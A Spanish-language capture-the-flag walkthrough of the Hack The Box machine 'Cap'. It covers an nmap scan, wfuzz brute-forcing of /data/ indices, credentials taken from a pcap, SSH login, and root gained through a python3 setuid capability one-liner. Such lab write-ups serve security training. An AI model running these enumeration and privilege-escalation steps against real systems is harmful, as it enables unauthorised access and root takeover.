




# Cap

<h1 align="center">
  <br>
  
  <br>
</h1>

***
**Machine IP**: ## 10.10.10.245

**DATE**  : 9/06/2021
***
## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
## Nmap 
```console
┌──(kr1stuS㉿kali)-[~]
└─$ nmap -sC -sV -p21,22,80 10.10.10.245 -Pn     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-11 18:30 EDT
Nmap scan report for 10.10.10.245
Host is up (0.15s latency).                                                                                                                                                                                   
                                                                                                                                                                                                                   
PORT   STATE SERVICE VERSION                                                                                                                                                                                       
21/tcp open  ftp     vsftpd 3.0.3                                                                                                                                                                                  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                                                  
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                                                                                                                                                     
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                                                                                                                                                    
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)                                                                                                                                                  
80/tcp open  http    gunicorn                                                                                                                                                                                      
| fingerprint-strings:                                                                                                                                                                                             
|   FourOhFourRequest:                                                                                                                                                                                             
|     HTTP/1.0 404 NOT FOUND                                                                                                                                                                                       
|     Server: gunicorn                                                                                                                                                                                             
|     Date: Fri, 11 Jun 2021 22:42:49 GMT                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                       
|     Content-Length: 232                                                                                                                                                                                          
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">                                                                                                                                                      
|     <title>404 Not Found</title>                                                                                                                                                                                 
|     <h1>Not Found</h1>                                                                                                                                                                                           
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>                                                                              
|   GetRequest:                                                                                                                                                                                                    
|     HTTP/1.0 200 OK                                                                                                                                                                                              
|     Server: gunicorn                                                                                                                                                                                             
|     Date: Fri, 11 Jun 2021 22:42:43 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 11 Jun 2021 22:42:43 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.91%I=7%D=6/11%Time=60C3E41E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2FE5,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Fri,\x2011\x20Jun\x202021\x2022:42:43\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,\x2
SF:011\x20Jun\x202021\x2022:42:43\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20F
SF:ri,\x2011\x20Jun\x202021\x2022:42:49\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.35 seconds

```
Como vemos tiene el puerto 21, 22 y 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web .


En la pagina `Security Snapshot` nos encontramos con archivos pcap que son paquetes de red, pero cada vez que le damos click el indice de la pagina cambia, lo cual me parece raro.


Entonces utilizé la herramienta `wfuzz` que se encargará de buscar los diferentes archivos en el directorio data, para ver cuántos indices hay, pero primero generé un wordlists con los números del 1 al 1000 para hacer la fuerza bruta con el comando.
```bash
wfuzz -u http://10.10.10.245/data/FUZZ -w /home/kr1stuS/txt.txt -t 50 --hc 302,404
```

y el resultado fue el siguiente:

```bash
┌──(kr1stuS㉿kali)-[~]
└─$ wfuzz -u http://10.10.10.245/data/FUZZ -w /home/kr1stuS/txt.txt -t 50 --hc 302,404                  
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.245/data/FUZZ
Total requests: 1001

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                         
=====================================================================

000000003:   200        370 L    993 W      17149 Ch    "2"                                             
000000007:   200        370 L    993 W      17143 Ch    "6"                                             
000000013:   200        370 L    993 W      17144 Ch    "12"                                            
000000014:   200        370 L    993 W      17147 Ch    "13"                                            
000000017:   200        370 L    993 W      17144 Ch    "16"                                            
000000025:   200        370 L    993 W      17150 Ch    "24"                                            
000000027:   200        370 L    993 W      17147 Ch    "26"                                            
000000026:   200        370 L    993 W      17144 Ch    "25"                                            
000000030:   200        370 L    993 W      17144 Ch    "29"                                            
000000011:   200        370 L    993 W      17144 Ch    "10"                                            
000000012:   200        370 L    993 W      17144 Ch    "11"                                            
000000016:   200        370 L    993 W      17147 Ch    "15"                                            
000000021:   200        370 L    993 W      17144 Ch    "20"                                            
000000006:   200        370 L    993 W      17143 Ch    "5"                                             
000000001:   200        370 L    993 W      17146 Ch    "0"                                             
000000018:   200        370 L    993 W      17153 Ch    "17"                                            
000000022:   200        370 L    993 W      17150 Ch    "21"                                            
000000023:   200        370 L    993 W      17153 Ch    "22"                                            
000000024:   200        370 L    993 W      17150 Ch    "23"                                            
000000029:   200        370 L    993 W      17153 Ch    "28"                                            
000000009:   200        370 L    993 W      17152 Ch    "8"                                             
000000008:   200        370 L    993 W      17152 Ch    "7"                                             
000000010:   200        370 L    993 W      17152 Ch    "9"                                             
000000005:   200        370 L    993 W      17146 Ch    "4"                                             
000000019:   200        370 L    993 W      17153 Ch    "18"                                            
000000004:   200        370 L    993 W      17146 Ch    "3"                                             
000000002:   200        370 L    993 W      17143 Ch    "1"                                             

Total time: 3.011213
Processed Requests: 1001
Filtered Requests: 974
Requests/sec.: 332.4240

```

Al inspeccionar todos los links con esos indices, me pareció interesante el `data/0` ya que tenia paquetes ip y tcp diferentes al número total.

Descargué el archivo pcap y los analizé con wireshark, y encontré un usuario y contraseña.



Luego intenté logarme via ssh con esas credenciales y así logramos obtener una shell con el usuario nathan.




## Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario nathan, ejecutamos el comando Para saber que comandos se pueden ejecutar con permisos `SUID`.

 ```bash
sudo -l
``` 

La maquina no permite el uso de este comando, podemos user `linpeas`, pero seria muy facil el escalamiento, entonces enumeraremos las `capabilities` del usuario para explotarlas, si necesitan un poco más de explicacion sobre las capabilites, les dejo esta página [HackTricks](https://book.hacktricks.xyz/shells/shells/linux)

```bash
getcap -r / 2>/dev/null
```



Vemos que tiene `python3` habilitado para ejecutar comandos como root, entonces usamos el comando para importar una shell que nos da la pagina.

```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```



**Game over!
Obtenemos acceso root y el root.txt.**
